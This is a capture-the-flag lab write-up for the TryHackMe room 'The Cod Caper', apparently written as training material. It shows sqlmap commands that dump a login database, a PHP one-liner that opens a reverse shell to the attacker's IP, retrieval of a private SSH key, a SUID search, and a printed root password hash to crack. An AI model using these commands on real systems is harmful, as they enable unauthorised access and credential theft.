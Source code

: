 # TryHackMe-The_Cod_Caper-WriteUp
My solution for the room called "The Cod Craper" in TryHackMe <br>
https://tryhackme.com/room/thecodcaper

## Host Enumeration 

<p> The first step is to see what ports and services are running on the target machine. 
Recommended Tool - nmap:
Useful flags: -p -sC -A </p>

<p> To answer this questions we need to scan the machine with nmap and analyze the results</p>

```nmap 
nmap -A <IP> -vv
```
![nmap](https://user-images.githubusercontent.com/67475596/103458587-e65f9400-4d09-11eb-85da-2f2e1c717200.png)

We can see that there are two port open, 22 with ssh service and port 80 with http


**Question 1:** How many ports are open on the target machine? <br>
<code> 2 </code>

**Question 2:** What is the http-title of the web server? <br>
<code> Apache2 Ubuntu Default Page: It works </code>

**Question 3:** What version is the ssh service? <br>
<code> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 </code>

**Question 4:** What is the version of the web server? <br>
<code> Apache/2.4.18 </code>

## Web Enumeration 

<p> Since the only services running are SSH and Apache, it is safe to assume that we should check out the web server first for possible vulnerabilities. One of the first things to do is to see what pages are available to access on the web server.
Recommended tool: gobuster
Useful flags: -x --url --wordlist 
	
Recommended wordlist: big.txt </p>

![default page](https://user-images.githubusercontent.com/67475596/103477313-f9cc3700-4dbd-11eb-877f-d61c426166f8.png)

<p>If we open the ip on a browser we can see that there is the default page of Apache2 Ubuntu <br>
Now let's scan the ip with gobuster for enumerate some directories and files.</p>

```bash 
gobuster dir -u http://IP/ -w big.txt -x .php,.html,.txt
```

![gobuster](https://user-images.githubusercontent.com/67475596/103477366-9262b700-4dbe-11eb-8479-c080708fcaa9.png)

Here we are.. we found the important file !


**Question 1 :** What is the name of the important file on the server? <br>
<code> administrator.php </code>

## Web Exploitation

<p>The admin page seems to give us a login form. In situations like this it is always worth it to check for "low-hanging fruit". In the case of login forms one of the first things to check for is SQL Injection. <br>

Recommended Tool: sqlmap

Useful Flags: -u --forms --dump -a

On the page IP/administrator.php we have an administrator login 

![login](https://user-images.githubusercontent.com/67475596/103477577-8c6dd580-4dc0-11eb-9179-4bf229f46f7e.png)

Let's try an SQL Injection with sqlmap <br>

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

but first we need to intercept the http request with burpsuite

![request](https://user-images.githubusercontent.com/67475596/103477728-cd1a1e80-4dc1-11eb-81f6-f7f78922c1bb.png)

now save it in a .txt file and then launch sqlmap

```bash
sqlmap -r request.txt -D users --tables
```


![sqlmap 1](https://user-images.githubusercontent.com/67475596/103477764-0c486f80-4dc2-11eb-8381-22f1d908bc69.png)

Mmmh... interesting we found some databases :)

![sqlmap 2](https://user-images.githubusercontent.com/67475596/103477797-592c4600-4dc2-11eb-98a8-ae36a56d3c15.png)

Let's check "users"

```bash
sqlmap -r request.txt -D users -T users --dump
```

![sqlmap 3](https://user-images.githubusercontent.com/67475596/103477822-9a245a80-4dc2-11eb-9629-02cb1b129a2b.png)

Here are the username and password !

![user pass sqlmap](https://user-images.githubusercontent.com/67475596/103477845-d9eb4200-4dc2-11eb-906a-61f035ae8e09.jpg)


**Question 1:** What is the admin username? <br>

**Question 2:** What is the admin password? <br>

**Question 3:** How many forms of SQLI is the form vulnerable to? <br>
<code> 3 </code>

![sql1](https://user-images.githubusercontent.com/67475596/103491639-d9d05e00-4e25-11eb-88be-fbc4db8cef33.png)
![sql2](https://user-images.githubusercontent.com/67475596/103491642-dc32b800-4e25-11eb-88b2-7026454113c4.png)
![sql3](https://user-images.githubusercontent.com/67475596/103491644-dccb4e80-4e25-11eb-8d12-2ab8077ca7ef.png)
</p>

## Command Execution

<p> It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account! Let's run a few test commands, and then try to gain access! </p>

<p> Now we have the credentials found with sqlmap <br>
Let's do the log in </p>

Ouch ... another form <br>
![run_command](https://user-images.githubusercontent.com/67475596/103491811-f8832480-4e26-11eb-99ef-e6f307ee9b77.png)

<p> Now let's try to get a reverse shell with netcat <br>
  but first prepare a php shell

```bash
php -r '$sock=fsockopen("YOUR IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![run command](https://user-images.githubusercontent.com/67475596/103491856-48fa8200-4e27-11eb-8d09-7379187a7886.png)

Don't forget to run netcat on the attacking machine

![run_netcat](https://user-images.githubusercontent.com/67475596/103491944-db028a80-4e27-11eb-9bd4-928918dcc68d.png)
</p>

If everything went well then we are inside the target machine

![netcat](https://user-images.githubusercontent.com/67475596/103492037-93c8c980-4e28-11eb-868b-df6845cd33a9.png)

**Question 1:** How many files are in the current directory? <br>
<code> 3 </code>

**Question 2:** Do I still have an account <br>
<code> yes </code>

**Question 3:** What is my ssh password? <br>
<p> To answer this question I've searched into the machine <br>
the path is the following </p>

> /var/hidden/pass

![pass ssh](https://user-images.githubusercontent.com/67475596/103492201-85c77880-4e29-11eb-9f81-0afbb665caa3.jpg)

## LinEnum

**Question 1:** What is the interesting path of the interesting suid file <br>

<p> My solution: <br>
first connect to the ssh with the ssh key found in </p>

> /home/pingu/.ssh/id_rsa

![ls - a](https://user-images.githubusercontent.com/67475596/103492276-fcfd0c80-4e29-11eb-8fcb-04dd1ae3199c.png)

![Inkedkey rsa_LI](https://user-images.githubusercontent.com/67475596/103492303-33d32280-4e2a-11eb-8cda-955e245bf62b.jpg)

put it in a .txt file and then log to the ssh

```bash
ssh -i ssh_key.txt pingu@IP
```

![ssh](https://user-images.githubusercontent.com/67475596/103492363-afcd6a80-4e2a-11eb-8319-386995457d0d.png)

Now we have to found the path of the suid file 
a SUID is a special file permission for executable files which enables other users to run the file with effective permissions of the file owner.

I've searched on the internet and I found this command that permits to list all binaries with SUID permission.

```bash
find / -perm -u=s -type f 2>/dev/null
```
![suidfiles](https://user-images.githubusercontent.com/67475596/103530465-c7870c00-4e87-11eb-9dba-cd558909834c.png)

## pwndbg

> No answer needed

## Binary-Exploitaion: Manually 

> No answer needed

## Binary Exploitation: The pwntools way

> No answer needed

 ## Finishing the job 
 
 Now that we have the password hashes, we can crack them and get the root password! Recall from the previous outputs that our root password hash is

> $6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.

Usage: hashcat {flags} {hashfile} {wordlist}

Hint: the hashcat mode is 1800

Enjoy
    
   

